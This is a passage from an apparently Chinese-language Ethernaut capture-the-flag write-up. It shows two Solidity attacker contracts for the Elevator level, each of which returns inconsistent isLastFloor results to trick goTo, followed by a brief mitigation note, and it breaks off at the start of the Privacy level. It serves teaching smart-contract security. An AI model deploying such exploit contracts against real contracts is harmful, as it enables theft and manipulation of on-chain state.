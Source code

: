     if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

//方法1
contract myBuilding is Building {
    Elevator e;
    uint public topFloor=10;
    
    function myBuilding(address eAddr) public{
        e=Elevator(eAddr);
    }
    
    function isLastFloor(uint) view  public returns (bool){
        return e.floor()>0;
    }
    
    function toTop() public{
        e.goTo(topFloor);
    }
}

//方法2 
contract myBuilding1 is Building {
    Elevator e;
    uint public topFloor=10;
    bool isTop =true;
    
    function myBuilding1(address eAddr) public{
        e=Elevator(eAddr);
    }
    
    function isLastFloor(uint) view  public returns (bool){
        isTop = !isTop;
        return isTop;
    }
    
    function toTop() public{
        e.goTo(topFloor);
    }
}
```
**如何避免**：
可以通过在Elevator的goTo函数中判断gasleft是否有变化来避免此漏洞

### 12. Privacy

**题目源码**：
```
pragma solidity ^0.4.18;

contract Privacy {

